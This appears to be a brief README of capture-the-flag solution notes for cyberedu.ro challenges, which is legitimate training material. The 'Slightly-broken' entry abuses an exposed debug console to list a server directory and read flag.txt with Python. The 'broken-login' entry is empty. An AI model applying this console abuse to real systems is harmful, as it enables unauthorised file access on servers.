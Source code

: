 # CyberCTF

cyberedu.ro

* Slightly-broken
  * URL: https://app.cyberedu.ro/challenges/a29f2dc0-9502-11ea-b94c-cf34503f201a/
  * Solution
    1. Remove all getflag input variables
    2. Run the console on the getflag
    3. Import glob
    4. print(glob.glob("/home/ecsc/*")) >> ['/home/ecsc/app.py', '/home/ecsc/flag.txt']
    5. print(open('flag.txt', 'r').read()) >> ECSC{672**************************}
 * broken-login
  * URL: https://app.cyberedu.ro/challenges/62bee6e0-356c-11eb-a033-199a06b529d6/
  * Solution
